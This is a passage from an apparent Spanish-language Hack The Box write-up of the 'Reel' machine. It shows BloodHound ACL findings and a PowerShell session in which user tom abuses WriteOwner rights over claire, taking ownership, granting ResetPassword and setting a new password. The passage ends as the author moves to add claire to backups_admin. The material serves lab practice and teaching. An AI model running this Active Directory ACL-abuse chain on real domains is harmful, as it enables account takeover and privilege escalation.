 ![](/assets/images/htb-writeup-reel/acls.png)

Hacemos un filter por la palabra tom en el principalName, y nos encontramos lo siguiente.
![](/assets/images/htb-writeup-reel/filtrar.png)

Vemos que tiene el permiso writeowner, que esta vulnerabilidad permite cambiarle la contraseña a un usuario, en este caso a claire. Buscamos información por internet y procedemos a ser lo siguiente.

```powershell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom                          
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPass
word                                                                                                                            
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString "pwned@#$" -AsPlainText -force              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $cred                     
PS C:\Users\tom\Desktop\AD Audit\BloodHound> 
```

Estamos como claire.

![](/assets/images/htb-writeup-reel/claire.png)

Ahora procedemos a agregar a claire al grupo backups_admin.
